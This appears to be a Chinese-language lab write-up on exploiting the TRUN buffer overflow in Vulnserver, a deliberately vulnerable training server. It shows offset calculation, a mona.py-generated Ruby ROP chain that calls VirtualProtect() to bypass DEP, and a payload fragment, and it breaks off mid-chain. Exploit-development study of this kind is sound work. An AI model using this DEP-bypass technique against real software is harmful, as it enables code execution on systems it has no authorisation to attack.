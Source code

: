 > **目标程序** [Introducing Vulnserver](http://www.thegreycorner.com/2010/12/introducing-vulnserver.html)
> **使用** vulnserver.exe 6666
> **漏洞点** ![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562744461/%E5%9B%BE%E7%89%8712.png)

## 设置DEP保护
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562744518/pwn/%E6%8D%9511%E8%8E%B7.png)
*构建ROP链来调用VirtualProtect()关闭DEP并执行Shellcode*

## 计算偏移量
``'TRUN .'+make_nops(target['Offset'])``
Immunity附加进程之后，在服务端发送3000个字符，计算偏移

## 创建ROP链
`!mona rop -m *.dll -cp nonull`
```ruby
################################################################################

Register setup for VirtualProtect() :
--------------------------------------------
 EAX = NOP (0x90909090)
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = ReturnTo (ptr to jmp esp)
 ESI = ptr to VirtualProtect()
 EDI = ROP NOP (RETN)
 --- alternative chain ---
 EAX = ptr to &VirtualProtect()
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = POP (skip 4 bytes)
 ESI = ptr to JMP [EAX]
 EDI = ROP NOP (RETN)
 + place ptr to "jmp esp" on stack, below PUSHAD
--------------------------------------------


ROP Chain for VirtualProtect() [(XP/2003 Server and up)] :
----------------------------------------------------------

*** [ Ruby ] ***

  def create_rop_chain()

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets =
    [
      0x77dabf34,  # POP ECX # RETN [ADVAPI32.dll]
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x77d1927f,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [USER32.dll]
      0x7c96d192,  # XCHG EAX,ESI # RETN [ntdll.dll]
      0x77bef671,  # POP EBP # RETN [msvcrt.dll]
      0x625011af,  # & jmp esp [essfunc.dll]
      0x77e9ad22,  # POP EAX # RETN [RPCRT4.dll]
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x77e6c784,  # NEG EAX # RETN [RPCRT4.dll]
```